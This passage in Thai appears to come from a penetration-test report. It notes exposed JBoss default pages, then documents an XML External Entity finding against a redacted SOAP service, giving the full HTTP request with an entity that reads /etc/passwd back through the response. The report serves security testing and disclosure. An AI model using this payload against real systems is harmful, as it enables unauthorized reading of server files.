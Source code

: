 ตัวอย่างหน้าตั้งต้นของ JBoss Web Server

\newpage

 \begin{figure}[h]
	\centering
	\texttt{[image: jbosshome.png]}
	\caption{หน้าตั้งต้นของ JBoss Web Server EAP 7}
	\label{Fig:jbosshome.png}
\end{figure}

วิธีการแก้คือต้องตั้งค่า Web Server ให้ปิดการแสดงเลข Version และลบหน้า Default Page 
 
\subsection{XML External Entities (XXE)}

ผู้ทดสอบระบบสามารถใส่ XML Entities ที่สามารถใช้เรียก External Resource เข้าไปยัง HTTP Request เพื่อให้ตัว XML Parser นั้น Include ตัว External Resource ที่เราต้องการ (ในที่นี้คือไฟล์ /etc/passwd ที่เก็บรายชื่อ User ทั้งหมดในระบบ) แล้วส่งข้อมูลนั้นกลับมาผ่าน HTTP Response ซึ่งด้านล่างคือตัวอย่าง Request ที่ใช้ Exploit

\begin{lstlisting}[numbers=none] 
POST /wsgw/services/[REDACTED]SecureService HTTP/1.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:70.0) Gecko/20100101 Firefox/70.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
SOAPAction: urn:MSG
Content-Type: text/xml;charset=UTF-8
Host: [REDACTED]
Content-Length: 7973

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:web="http://[REDACTED]/webservice">
<soapenv:Header/>
<soapenv:Body>
<web:MSG>
<web:[REDACTED]><![CDATA[

<@\textcolor{red}{<!DOCTYPE doc [<!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>}@>

<Service value="Export">
<CorpName>[REDACTED]</CorpName>
<CorpId>&xxe;</CorpId>
<MessageType>14</MessageType>
<ReqUId>SECTEST\_20190916008</ReqUId>
<Data>
[...]  
</Data>
</Service>
]]></web:[REDACTED]>
</web:MSG>
</soapenv:Body>
</soapenv:Envelope>
\end{lstlisting}

และผลลัพธ์ที่ได้คือข้อมูลภายในไฟล์ /etc/passwd

